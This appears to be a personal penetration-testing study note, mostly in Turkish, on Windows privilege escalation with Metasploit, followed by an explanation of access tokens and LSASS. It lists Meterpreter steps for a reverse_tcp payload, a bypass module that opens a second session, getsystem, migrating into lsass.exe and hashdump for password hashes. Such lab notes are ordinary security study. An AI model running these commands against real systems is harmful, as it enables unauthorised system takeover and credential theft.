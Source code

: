 ### set payload windows/x64/meterpreter/reverse_tcp
### LPORT aynı kalmasın 4444-->>4445 değiştir
### set session 13
### run 

![[Pasted image 20240309230726.png]]
#### Bu hatayı verdi çünkü target architecture değiştirilmediği için bunu
### <span style="background:#d4b106">set TARGET Windows\ x64</span>

### Bu şekilde değiştirdik ve....


![[Pasted image 20240309231104.png]]
![[Pasted image 20240309231147.png]]
## Bizde 2 tane session var şuan biri bizim aldığımız diğeri de bypass modulunun 4445 portundan yarattığı.

### Biz şimdi getsystem komutunu çalıştırırsak getprivs'e yeni yetki eklenmiş olup sistemi NT/AUTH olarak ele geçirmiş oluyoruz.
![[Pasted image 20240309231338.png]]
### ps filtering
### ps -S lsass.exe
## migrate 688
## hashdump 
#hashdump 
![[Pasted image 20240309232131.png]]

---

## Access Token Impersonation
#token 
#token-windows-priv-escalate 
#Access-Token-Impersonation 

### Windows Access Tokens
+ Windows access tokens are a <span style="background:#d4b106">core element of the authentication process</span> on Windows and are created and managed by the 
+ ### Local Security Authority Subsystem Service (LSASS). #LSASS #lsass 
### A Windows access token is responsible for --->><span style="background:#d4b106">identifying</span> and <span style="background:#d4b106">describing </span>the security context of a process or thread running on a system. 
+ <span style="background:#d4b106">Simply put, an access token can be thought of as a temporary key akin to a web cookie that provides users with access to a system or network resource without having to provide credentials each time a process is started or a system resource is accessed</span>.
+ <span style="background:#40a9ff">Access tokens are generated by the winlogon.exe process every time a user authenticates successfully and includes the identity and privileges of the user account associated with the thread or process.</span> #winlogon 
 